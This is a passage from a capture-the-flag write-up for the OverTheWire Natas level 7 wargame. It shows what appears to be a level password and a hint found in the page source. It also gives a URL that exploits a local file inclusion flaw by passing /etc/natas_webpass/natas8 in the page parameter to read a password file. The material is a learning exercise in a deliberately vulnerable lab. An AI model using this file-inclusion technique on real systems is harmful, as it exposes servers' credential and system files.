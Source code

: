 DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Here, we have two pages: "Home" and "About". Viewing the source, there's a comment that says: `hint: password for webuser natas8 is in /etc/natas_webpass/natas8`. So, I checked if there was another page at that path:

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

And, indeed, the password was there!
